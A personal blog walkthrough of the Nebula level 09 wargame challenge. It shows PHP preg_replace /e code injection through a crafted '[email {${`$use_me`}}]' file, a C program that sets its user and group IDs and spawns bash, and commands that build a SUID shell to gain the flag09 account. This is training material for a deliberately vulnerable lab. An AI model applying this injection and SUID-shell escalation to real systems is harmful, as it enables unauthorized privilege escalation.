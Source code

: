 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula 09"
date: "2011-12-10T05:46:00-05:00"
comments: true
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - suid
 - injection
 - hacking
---
```


Challenge 09 gave me the most issues out of any other challenge so far.  This may just be because I haven't touched PHP since version 3 was just coming out.  However, it is based on a dangerous function, known as [preg_replace()](http://php.net/manual/en/function.preg-replace.php).  There are several more dangerous functions, some of which can be seen [here](http://stackoverflow.com/questions/3115559/exploitable-php-functions). 

<!-- more -->

The challenge starts by giving us the source code of the program we will be exploiting. 

```
<?php

function spam($email)
{
  $email = preg_replace("/\./", " dot ", $email);
  $email = preg_replace("/@/", " AT ", $email);
  
  return $email;
}

function markup($filename, $use_me)
{
  $contents = file_get_contents($filename);

  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
  $contents = preg_replace("/\[/", "<", $contents);
  $contents = preg_replace("/\]/", ">", $contents);

  return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

?>
```

What I noticed immediately, was that the program accepted 2 arguments, but never used the second one, other than to pass it into the "markup" function as "$use_me".  This seemed odd, so I figured it had to do something with that.  I also thought at first that the "spam" function was never being called, but then noticed it in quotes on the first line of "preg_replace" statements.  I had to look this function up, and find out that it would evaluate the code at run-time.  This means that I needed to inject code into that call to "spam()". 

I tried doing some basic injection to try to get something equivelent to it calling: 

```
spam("");system("/bin/bash");print("");
```

However this never worked, because of the [PCRE modifiers](http://www.php.net/manual/en/reference.pcre.pattern.modifiers.php) built into PHP.  They automatically will escape single and double quotes, as well as backticks (at least according to the docs).  I spent <b>hours</b> trying to inject various strings to get some sort of code execution. 

Somewhere along the line, I read a page (sorry I can't seem to find it again) where they mentioned using an alternative syntax to the backreferences in preg_replace.  So instead of using \\2, you could use ${2}.  This is covered slightly on the [preg_replace](http://php.net/manual/en/function.preg-replace.php) php function reference.  What that reference doesn't show, is that you can apparently have that not just reference parameters, but any variable in the code.  After tinkering a while, I settled on a pattern.  I created a file named, /tmp/level09.txt 

```
[email {${`$use_me`}}]
```

Firstly, I had to start with "[email " and end with "]" to get it into this regex at all.  Because of the PCRE modifiers, I used back-ticks, because in researching them, I ran across a [blog post](http://www.madirish.net/node/437) saying that back-ticks were able to bypass them somehow.  So with variable expansion, and the PCRE modifier bypass, this should let me inject some code into the function. 

Because running a "system()" or "exec()" method in the php caused me problems with interactivity, I opted to use commands that required no interaction at run-time.  I again used my /tmp/bash_id.c file from challenge 07: 

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main(int argc, char *argv[])
{
    if (argc != 2)
        printf("usage: %s <user id>\n", argv[0]);
    else {
        int i = atoi(argv[1]);
        setresuid(i, i, i);
        setresgid(i, i, i);
        system( "/bin/bash" );
    }
    return 0;
}
```

I then would call the compiled SUID version of the php file with 2 parameters.  The first would be the text file I wanted to parse, and the second would be the commands I wanted to run, which would get inserted into the $use_me variable. 


```
level09@nebula:/home/flag09$ ./flag09 /tmp/level09.txt "gcc -o /home/flag09/bash_id /tmp/bash_id.c;chmod +s,a+rwx /home/flag09/bash_id"
PHP Notice:  Undefined variable:  in /home/flag09/flag09.php(15) : regexp code on line 1
```

This compiled my bash_id.c source file to the flag09 user's home directory, and marked it SUID.  I ignored the PHP Notice, since I knew I was tinkering. 

After making sure the bash_id program did get created properly, I just needed to call it with the userid of flag09 as the first parameter. 

```
level09@nebula:/home/flag09$ ./bash_id `cat /etc/passwd | grep flag09 | cut -d : -f 3`
flag09@nebula:/home/flag09$ getflag
You have successfully executed getflag on a target account
```

This apparently worked, so I ran the "getflag" command as usual, marking completion of this challenge.  This was by far the most guessing I've had to do on any of the challenges so far.  I really hope that I don't get stuck soon, leaving me unable to continue on.
